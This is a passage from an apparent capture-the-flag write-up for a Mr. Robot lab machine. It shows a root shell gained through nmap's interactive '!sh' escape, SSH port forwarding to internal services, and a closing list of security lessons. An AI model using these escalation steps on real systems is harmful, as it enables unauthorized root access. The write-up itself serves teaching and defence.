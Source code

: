 ```console
robot@linux:/$ nmap --version
nmap version 3.81 ( http://www.insecure.org/nmap/ )

robot@linux:/$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id 
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
```

The final key is at `/root/key-3-of-3.txt`.

## Bonus - port forwarding dead ends

As root, we can restart the ssh service (`service start ssh`) allowing port forwarding from the attack machine. This allows us to try to connect to the discovered internal services - ftp, mysql, phpmyadmin, and monit. Here, we forward local traffic on 8080 to 127.0.0.1:80 on the target machine, allowing us to access the phpmyadmin dashboard :

```console
┌──(kali㉿kali)-[~]
└─$ ssh -L 8080:localhost:80 robot@10.10.222.86
```

We can do the same for the other services by changing the target port. I wasn't able to connect to the ftp and mysql instances or the phpmyadmin dashboard using our two known credential pairs (the discovered wordpress admin and the `robot` user), and no additional information was gained from the monit dashboard. We've already got root so I didn't go vulnerability hunting, brute forcing, etc. for these internal services. Let me know if you have any more luck!

## 6. Summary and Solutions

So we saved the world. Or we destroyed the world. I haven't watched Mr. Robot, I don't know who the bad guys are. But what went wrong here in regards to security, and what could have been done to avoid it?

* **Information disclosure, web application** - revealing a credential list in robots.txt or a base64 encoded credential string are pretty heavy ways to make this point, but it helps to know what information is exposed on your services. What could a dedicated attacker do with a list of names and phone numbers, etc.?
* **Information disclosure, error messages** - error messages that distinguish between username and password failures massively reduce the number of requests required to brute force the login page (from n\*n requests to n\*2 requests). [Error messages should not provide information on system configuration.](https://owasp.org/www-community/Improper_Error_Handling). After a quick search, it seems that the "Username invalid" error message is still displayed in the default Wordpress configuration.
* **Password policy** - privesc to the robot user relies on insecure storage of the hash, and a password that is in the best known list of pwnd passwords. Password policy should define and enforce minimum password entropy, and prevent insecure storage of plaintext and hashed passwords (slightly tougher to enforce...).
* **Principle of least privilege** - sudo access to a binary that can provide a shell is root access. When configuring your environment, you should know what your binaries do - [gtobins](https://gtfobins.github.io/) is a great place to start - and why your users need them. Always ensure that privileges are scoped to the absolute minimum level required for users to perform their tasks.